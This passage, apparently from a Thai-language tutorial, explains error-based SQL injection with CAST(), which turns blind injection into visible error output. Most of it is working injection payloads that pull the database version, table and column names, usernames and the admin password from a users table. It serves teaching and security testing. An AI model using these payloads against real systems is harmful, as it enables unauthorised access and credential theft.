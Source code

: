 ```
ERROR: invalid input syntax for type integer: "Example data"
```

## ประโยชน์ของเทคนิคนี้

### 1. เปลี่ยน Blind Injection เป็น Visible
- ปกติเราไม่เห็นข้อมูลโดยตรง
- แต่ด้วย CAST() error เราจะเห็นข้อมูลในข้อความ error

### 2. แก้ปัญหา Character Limit
- บางครั้งเราไม่สามารถใส่ query ยาวๆ ได้
- CAST() ใช้ query สั้นๆ แต่ได้ผลลัพธ์เยอะ

## ตัวอย่างการใช้งานจริง

### หา Database Version:
```sql
' AND CAST((SELECT @@version) AS int)--
```

### หา Table Names:
```sql
' AND CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS int)--
```

### หา Column Names:
```sql
' AND CAST((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1) AS int)--
```

### ดึงข้อมูล User:
```sql
' AND CAST((SELECT username FROM users LIMIT 1) AS int)--
```

### ดึงข้อมูล Password:
```sql
' AND CAST((SELECT password FROM users WHERE username='admin') AS int)--
```

## เทคนิคขั้นสูง

### ใช้ CONCAT() ดึงหลายข้อมูลพร้อมกัน:
```sql
' AND CAST((SELECT CONCAT(username,':',password) FROM users LIMIT 1) AS int)--
```

### ใช้ GROUP_CONCAT() ดึงข้อมูลทั้งหมด (MySQL):
```sql
' AND CAST((SELECT GROUP_CONCAT(username) FROM users) AS int)--
```
